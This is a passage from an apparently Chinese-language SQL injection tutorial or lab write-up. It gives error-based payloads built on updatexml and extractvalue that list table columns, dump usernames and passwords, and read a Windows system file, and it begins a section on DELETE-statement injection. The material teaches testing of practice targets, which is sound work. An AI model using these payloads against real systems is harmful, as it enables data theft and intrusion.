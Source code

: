 >3、爆列 payload：`sex=1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),1,31),0x7e),1) #&phonenum=123&add=123&email=123%40123.com&submit=submit`
>
>
>
>4、爆内容 payload：`sex=1' and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),1,31),0x7e),1) #&phonenum=123&add=123&email=123%40123.com&submit=submit`
>
>
>
>5、读文件 payload：`sex=1' and updatexml(1,concat(0x7e,substr((select load_file('c:/windows/win.ini')),1,31),0x7e),1) #&phonenum=123&add=123&email=123%40123.com&submit=submit`



## delete注入

**delete型注入相关的sql语句大概是个** **`DELETE FROM 表名称 WHERE 列名称 = 值` 的形式。**



留言，删除——以id作为标识——get提交。——没有闭合且后面没有需要注释的内容。

当提交不存在的id时，就会出现一些错误：

![image-20220119205040335](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/04%20SQL%20inject.assets/image-20220119205040335.png)

方法一：

直接在url栏进行——传统简单高效的方法：

` and extractvalue(1,concat(0x7e,database()))`



方法二：

也可以使用神器GET提交，注意需要进行url整体编码：
